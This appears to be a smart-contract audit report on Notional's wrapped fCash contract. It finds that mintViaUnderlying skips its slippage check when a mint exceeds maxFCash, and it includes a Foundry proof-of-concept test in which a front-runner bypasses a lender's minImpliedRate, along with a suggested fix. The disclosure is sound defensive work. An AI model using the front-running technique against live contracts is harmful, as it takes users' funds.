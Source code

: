 Creamy Bamboo Osprey

high

# Lender transactions can be front-run, leading to lost funds

## Summary
Users can mint wfCash tokens via `mintViaUnderlying` by passing a variable `minImpliedRate` to guard against trade slippage. If the market interest is lower than expected by the user, the transaction will revert due to slippage protection. However, if the user mints a share larger than maxFCash, the `minImpliedRate` check is not performed.

## Vulnerability Detail
User invoke `mintViaUnderlying` to mint  shares:
https://github.com/sherlock-audit/2023-12-notional-update-5/blob/3bf2fb5d992dfd5aa7343d7788e881d3a4294b13/wrapped-fcash/contracts/wfCashLogic.sol#L25-L33
```solidity
    function mintViaUnderlying(
        uint256 depositAmountExternal,
        uint88 fCashAmount,
        address receiver,
        uint32 minImpliedRate//@audit when lendAmount bigger than maxFCash lack of minRate protect.
    ) external override {
        (/* */, uint256 maxFCash) = getTotalFCashAvailable();
        _mintInternal(depositAmountExternal, fCashAmount, receiver, minImpliedRate, maxFCash);
    }
```

let's dive into `_mintInternal` we can see if `maxFCash < fCashAmount` , the vaule of `minImpliedRate` is not checked
https://github.com/sherlock-audit/2023-12-notional-update-5/blob/3bf2fb5d992dfd5aa7343d7788e881d3a4294b13/wrapped-fcash/contracts/wfCashLogic.sol#L60-L68
```solidity
        if (maxFCash < fCashAmount) {
            // NOTE: lending at zero
            uint256 fCashAmountExternal = fCashAmount * precision / uint256(Constants.INTERNAL_TOKEN_PRECISION);//@audit-info fCashAmount * (underlyingTokenDecimals) / 1e8
            require(fCashAmountExternal <= depositAmountExternal);

            // NOTE: Residual (depositAmountExternal - fCashAmountExternal) will be transferred
            // back to the account
            NotionalV2.depositUnderlyingToken{value: msgValue}(address(this), currencyId, fCashAmountExternal);//@audit check this.
        } 
```
Imagine the following scenario:
- lender deposit Underlying token to mint some shares and set a `minImpliedRate` to protect the trsanction
- alice front-run her transaction invoke `mint` to mint some share
- the shares of lender mint now is bigger than `maxFCash`
- now the lender `lending at zero`

```solidity
    function testDepositViaUnderlying() public {
        address alice = makeAddr("alice");
        deal(address(asset), LENDER, 8800 * precision, true);
        deal(address(asset), alice, 5000 * precision, true);

        //alice deal.
        vm.stopPrank();
        vm.startPrank(alice);
        asset.approve(address(w), type(uint256).max);
        
        //==============================LENDER START=============================//
        vm.stopPrank();
        vm.startPrank(LENDER);
        asset.approve(address(w), type(uint256).max);
        //user DAI balance before:
        assertEq(asset.balanceOf(LENDER), 8800e18);

        (/* */, uint256 maxFCash) = w.getTotalFCashAvailable();
        console2.log("current maxFCash:",maxFCash);

        //LENDER mintViaUnderlying will revert due to slippage.
        uint32 minImpliedRate = 0.15e9;
        vm.expectRevert("Trade failed, slippage");
        w.mintViaUnderlying(5000e18,5000e8,LENDER,minImpliedRate);
        //==============================LENDER END=============================//

        //======================alice frontrun to mint some shares.============//
        vm.stopPrank();
        vm.startPrank(alice);
        w.mint(5000e8,alice);

        //==========================LENDER TX =================================//
        vm.stopPrank();
        vm.startPrank(LENDER);
        asset.approve(address(w), type(uint256).max);
        //user DAI balance before:
        assertEq(asset.balanceOf(LENDER), 8800e18);

        //LENDER mintViaUnderlying will success.
        w.mintViaUnderlying(5000e18,5000e8,LENDER,minImpliedRate);

        console2.log("lender mint token:",w.balanceOf(LENDER));
        console2.log("lender cost DAI:",8800e18 - asset.balanceOf(LENDER));
    }
```

From the above test, we can observe that if `maxFCasha` is greater than `5000e8`, the lender's transaction will be reverted due to "Trade failed, slippage." Subsequently, if Alice front-runs by invoking `mint` to create some shares before the lender, the lender's transaction will succeed. Therefore, the lender's `minImpliedRate` check will be bypassed, leading to a loss of funds for the lender.


## Impact
lender lost of funds
## Code Snippet
https://github.com/sherlock-audit/2023-12-notional-update-5/blob/3bf2fb5d992dfd5aa7343d7788e881d3a4294b13/wrapped-fcash/contracts/wfCashLogic.sol#L60-L68
```solidity
        if (maxFCash < fCashAmount) {
            // NOTE: lending at zero
            uint256 fCashAmountExternal = fCashAmount * precision / uint256(Constants.INTERNAL_TOKEN_PRECISION);//@audit-info fCashAmount * (underlyingTokenDecimals) / 1e8
            require(fCashAmountExternal <= depositAmountExternal);

            // NOTE: Residual (depositAmountExternal - fCashAmountExternal) will be transferred
            // back to the account
            NotionalV2.depositUnderlyingToken{value: msgValue}(address(this), currencyId, fCashAmountExternal);//@audit check this.
        } 
```
## Tool used
Foundry
Manual Review

## Recommendation
add a check inside `_mintInternal`
```diff
        if (maxFCash < fCashAmount) {
+          require(minImpliedRate ==0,"Trade failed, slippage");            
            // NOTE: lending at zero
            uint256 fCashAmountExternal = fCashAmount * precision / uint256(Constants.INTERNAL_TOKEN_PRECISION);//@audit-info fCashAmount * (underlyingTokenDecimals) / 1e8
            require(fCashAmountExternal <= depositAmountExternal);

            // NOTE: Residual (depositAmountExternal - fCashAmountExternal) will be transferred
            // back to the account
            NotionalV2.depositUnderlyingToken{value: msgValue}(address(this), currencyId, fCashAmountExternal);//@audit check this.
        }
```
